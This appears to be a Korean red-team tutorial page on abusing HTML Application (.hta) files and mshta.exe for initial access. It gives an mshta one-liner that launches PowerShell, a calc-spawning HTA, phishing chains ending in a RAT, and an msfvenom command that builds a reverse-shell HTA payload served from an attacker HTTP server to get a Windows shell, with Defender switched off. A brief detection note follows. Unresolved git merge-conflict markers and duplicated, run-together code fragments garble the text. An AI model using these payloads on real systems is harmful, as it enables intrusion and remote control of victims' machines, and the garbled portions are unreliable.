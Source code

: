 # HTA

HTA (HTML Application)는 마이크로소프트가 개발한 웹 애플리케이션 프로그래밍 기술이다. HTML, CSS, JavaScript 등의 웹 기술을 사용하여 윈도우 응용 프로그램과 같은 유저 경험을 제공할 수 있다. HTA는 일반적으로 .hta 확장자며 Mshta.exe라는 유틸리티로 실행된다.

HTA는 확장자 파일은 Mshta.exe 윈도우 바이너리로 실행되며네트워크 프록시 인식 방식으로 HTML에 포함된 Windows 스크립트 호스트 코드(VBScript 및 JScript)를 실행할 수 있기 때문에 MS로 서명된 유틸리티를 통해 임의 스크립트 코드 실행을 할 수 있어 공격하기 매력적인(?!?) 수단이다.

아래 트윗은 한 레드팀원이 몇일전에 올린 HTA를 관한 초기 침투가 아직도 많이 쓰이고 있다는것을 알수있다.

![](<../../obsidian\_resources/Pasted image 20230501172222.png>)

## 보안적인 측면

일단 HTA는 Java applet 이나 액티브X 컨트롤과 같은 기존의 웹 애플리케이션 기술에 비해 보안성과 사용자 경험 측면에서 우수한 성능을 제공할 수 있지만 또한 양날의 검으로 기존 웹 앱과는 다르게 로컬 파일 시스템이나 레지스트리 같은 거에 직접 액세스할 수도 있기 때문에더 많은 권한을 가질 수 있기 때문에 악의적인 목적으로도 충분히 쓰일 수 있다.

<<<<<<< HEAD
아래 실습 예제는 굉장히 간단히 예제 임으로 "왜 제가 만든 악성 hta 파일이 다운받은 즉시 사라지나요?"와 같은 질문은 하지 말길 바란다. 기본적으로 윈도우 디펜더를 다 끄고 진행하고 있기 때문에 아래 실습은 방어 우회를 거의 일체 생각하지 않았다라는 점을 이해해주길 바란다. 
=======
아래 실습 예제는 굉장히 간단히 예제 임으로 "왜 제가 만든 악성 hta 파일이 다운받은 즉시 사라지나요?"와 같은 질문은 하지 말길 바란다. 기본적으로 윈도우 디펜더를 다끄고 진행하고 있기 때문에 아래 실습은 방어 우회를 거의 일체 생각하지 않았다 ^^.

기본적으로 아래 3 항목을 비활성화 한뒤 시작한다.&#x20;

<figure><img src="../../obsidian_resources/Pasted image 20230501202117.png" alt=""><figcaption></figcaption></figure>
>>>>>>> f165b6851b98e317118e37834dcd8f2beebabbf1

Mitre Attack에서도 Mshta 실행을 하나의 테크닉으로 설명하고 있으며 굉장히 많은 APT그룹도 사용하고 있는 것을 알 수 있다.

https://attack.mitre.org/techniques/T1218/005/

<<<<<<< HEAD
일단 시작하기 앞서, 아래와 같이 mshta는 VBScript로 powershell.exe를 실행, Hello GROOT!를 보여준다.
=======
일단, 아래와 같이 mshta를 실애하면 powershell.exe 를 실행 Hello GROOT!를 보여준다.

>>>>>>> f165b6851b98e317118e37834dcd8f2beebabbf1
```powershell
mshta.exe "about:<hta:application><script language="VBScript">Close(Execute("CreateObject(""Wscript.Shell"").Run%20""powershell.exe%20-nop%20-Command%20Write-Host%20Hello,%20GROOT!;Start-Sleep%20-Seconds%205"""))</script>'"
```

HTA -> VBScript 코드를 실행할 수 있다는것 자체가 이미 여러 목적으로 이용되기에는는 충분한 시나리오다!

![](<../../obsidian\_resources/Pasted image 20230501210226.png>)

## 실습

기본적으로 HTA를 사용한 악성 코드 실행 시나리오는 여러가지가 있을수 있다. 예를들어, 아래와 같은 시나리오를 통해 리버스 쉘을 받아 볼수도 있다.

* LNK -> CMD -> Powershell -> RAT
* ZIP -> Password protected PDF + "password.lnk" -> RAT
* DOCx -> LNK -> remote HTA -> Powershell -> RAT
* 피싱 이메일 -> LOTS를 통한 mediafire/dropbx/github 다운 -> ZIP 파일 -> HTA -> RAT

## 기본 HTA 스크립트 예제

아래 HTA 스크립트는 Windows에서 calc.exe를 실행한다.

**grootcalc.hta**

var c= 'calc.exe' new ActiveXObject('WScript.Shell').Run(c);

```
<html>
<body>
<script>
        var c= 'calc.exe'
        new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
```

var c= 'calc.exe' new ActiveXObject('WScript.Shell').Run(c); var c= 'calc.exe' new ActiveXObject('WScript.Shell').Run(c); var c= 'calc.exe' new ActiveXObject('WScript.Shell').Run(c); var c= 'calc.exe' new ActiveXObject('WScript.Shell').Run(c); HTML Application을 통해 계산기가 실행되는 것을 알 수 있다. !\[]\(../../obsidian\_resources/Pasted%20image%2020230501171712.png)

## Metasploit 예제

가장 간단하게 msfvenom을 통해 HTA Payload를 만들어 보자. shell\_reverse\_tcp HTA 페이로드를 만들어 준다.

* LHOST: 칼리 로컬 호스트 로컬 IP
* LPORT: Listener 포트

```
┌──(kali㉿kali)-[~/redteam/HTA/unicorn]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.137.131 LPORT=443 -f hta-psh -o groot.hta
```

공격자는 타겟이 악성 HTA를 다운받을 수 있게 Python HTTP Server를 포트 8080에 만들어 준다.&#x20;

<figure><img src="../../obsidian_resources/Pasted image 20230501175738.png" alt=""><figcaption></figcaption></figure>

브라우저에서 http://192.168.137\[.]131:8080/groot.hta 를 방문하여 파일을 다운받고 실행하면 타겟박스 (윈도우) 쉘을 얻을 수 있다.

![](<../../obsidian\_resources/Pasted image 20230501175551.png>)

### 대응 방안
<<<<<<< HEAD
- CMD에서 실행되는 난독화된 스크립트를 실행하는 mshta.exe는 이미 수상하기 때문에 아마 EDR 차원에서  이미 감지를 할수 있다. 또한 mshta.exe 실행 전후 실행도는 Process들을 살펴봐 .hta 파일의 출처와 목적을 확인하는 것이 중요하다.

## 레퍼런스

https://dmcxblue.gitbook.io/red-team-notes-2-0/red-team-techniques/initial-access/t1566-phishing/phishing-spearphishing-link/links-hta-files
https://hatching.io/blog/lnk-hta-polyglot/
=======

* CMD에서 실행되는 난독화된 스크립트를 실행하는 mshta.exe는 이미 수상하기 때문에 아마 EDR 차원에서 이미 감지를 할수 있다. 또한 mshta.exe 실행 전후 실행도는 Process들을 살펴봐 .hta 파일의 출처와 목적을 확인하는 것이 중요하다.
>>>>>>> f165b6851b98e317118e37834dcd8f2beebabbf1
